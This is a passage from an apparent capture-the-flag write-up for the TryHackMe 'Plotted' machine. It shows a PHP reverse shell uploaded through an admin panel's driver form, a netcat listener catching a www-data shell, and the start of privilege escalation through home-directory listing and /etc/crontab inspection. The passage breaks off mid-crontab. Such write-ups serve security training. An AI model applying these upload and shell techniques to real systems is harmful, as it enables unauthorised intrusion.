 - Reverse shell time! Start a listener and upload a reverse shell as a new driver. You need to fill all inputs as well. I used PHP reverse shell. After uploading the shell just view drivers info in admin panel and you'll get a connection.

  ```
  nc -lvnp 4444                    
  listening on [any] 4444 ...
  connect to [YOUR-THM-IP] from (UNKNOWN) [10.10.242.82] 60062
  Linux plotted 5.4.0-89-generic #100-Ubuntu SMP Fri Sep 24 14:50:10 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
   19:58:11 up 40 min,  0 users,  load average: 0.00, 0.01, 0.12
  USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
  uid=33(www-data) gid=33(www-data) groups=33(www-data)
  /bin/sh: 0: can't access tty; job control turned off
  $ whoami
  www-data
  $ id
  uid=33(www-data) gid=33(www-data) groups=33(www-data)
  $ which python3
  /usr/bin/python3
  ```
  
- Change it to Putty shell and move on.

---

## 🧍 User Privilege Escalation

- First flag was easy to find but couldn't read it.

  ```
  www-data@plotted:/home$ cd plot_admin/
  www-data@plotted:/home/plot_admin$ ls -al
  total 32
  drwxr-xr-x  4 plot_admin plot_admin 4096 Oct 28  2021 .
  drwxr-xr-x  4 root       root       4096 Oct 28  2021 ..
  lrwxrwxrwx  1 root       root          9 Oct 28  2021 .bash_history -> /dev/null
  -rw-r--r--  1 plot_admin plot_admin  220 Oct 28  2021 .bash_logout
  -rw-r--r--  1 plot_admin plot_admin 3771 Oct 28  2021 .bashrc
  drwxrwxr-x  3 plot_admin plot_admin 4096 Oct 28  2021 .local
  -rw-r--r--  1 plot_admin plot_admin  807 Oct 28  2021 .profile
  drwxrwx--- 14 plot_admin plot_admin 4096 Oct 28  2021 tms_backup
  -rw-rw----  1 plot_admin plot_admin   33 Oct 28  2021 user.txt
  
  www-data@plotted:/home/plot_admin$ cat user.txt 
  cat: user.txt: Permission denied
  ```
  
- When I checked cronjobs, I found my way to `plot_admin`.

  ```
  www-data@plotted:/var/www/scripts$ cat /etc/crontab
  # /etc/crontab: system-wide crontab
  # Unlike any other crontab you don't have to run the `crontab'
  # command to install the new version when you edit this file
  # and files in /etc/cron.d. These files also have username fields,
  # that none of the other crontabs do.
  
  SHELL=/bin/sh
  PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin
  
  # Example of job definition:
  # .---------------- minute (0 - 59)
  # |  .------------- hour (0 - 23)
  # |  |  .---------- day of month (1 - 31)
  # |  |  |  .------- month (1 - 12) OR jan,feb,mar,apr ...
  # |  |  |  |  .---- day of week (0 - 6) (Sunday=0 or 7) OR sun,mon,tue,wed,thu,fri,sat
  ```